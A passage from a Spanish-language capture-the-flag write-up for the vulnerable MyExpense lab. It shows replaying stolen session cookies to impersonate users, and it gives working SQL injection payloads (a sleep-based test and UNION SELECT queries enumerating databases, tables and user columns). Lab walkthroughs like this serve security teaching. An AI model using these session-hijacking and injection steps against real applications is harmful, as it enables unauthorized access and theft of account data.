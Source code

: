 Una vez hecho esto, obtendremos una serie de cookies de diferentes usuarios. Iremos probando una a una hasta dar con **mriviere**.

![](/image/vh-writeup-myexpense/mriviereReport.png)

Aquí podemos ver la petición del pago y le damos a aceptar. 

Pero esto no es suficiente, todavía lo tiene que revisar el superior de este usuario. Si nos vamos a su usuario lo encontraremos:

![](/image/vh-writeup-myexpense/whoisManagerOfManager.png)

En las cookies anteriores se encuentra este usuario. Sin embargo, como es un administrador, aparece una alerta de que no pueden haber dos sesiones abiertas de un administrador. Por lo tanto, tenemos que intentar llegar a él de otra forma.

![](/image/vh-writeup-myexpense/mgmNoMeDeja.png)

<a id="pbaudouin"></a>
### Nos convertimos en pbaudouin

Si nos vamos al apartado *Rennes*, podremos ver una lista de elmentos. Si nos fijamos en la url, hay un parámetro llamado **id**. Podemos intentar probar un [SQLI (SQL Injection)](https://portswigger.net/web-security/sql-injection) escribiendo ```?id=2 or sleep(5)``` podremos observar como la página se queda cargando durante un buen rato así que podemos decir que funciona.

> El apartado *Rennes* estará disponible siempre que estemos logueados como mriviere

![](/image/vh-writeup-myexpense/sqliDetection.png)

Hacemos un **union select** para ver en que parte de la interfaz se puede ver la inyección:

```sql
?id=2 union select 1,2-- -
```
![](/image/vh-writeup-myexpense/firstUnionSelect.png)

Listamos las bases de datos:

```sql
?id=2 union select 1,schema_name from information_schema.schemata-- -
```
![](/image/vh-writeup-myexpense/databases.png)

Listamos las tablas de la base de datos *myexpense*:

```sql
?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```
![](/image/vh-writeup-myexpense/tables.png)

Listamos las columnas de la tabla user de la base de datos *myexpense*:

```sql
?id=2 union select 1,colunm_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```
![](/image/vh-writeup-myexpense/columns.png)
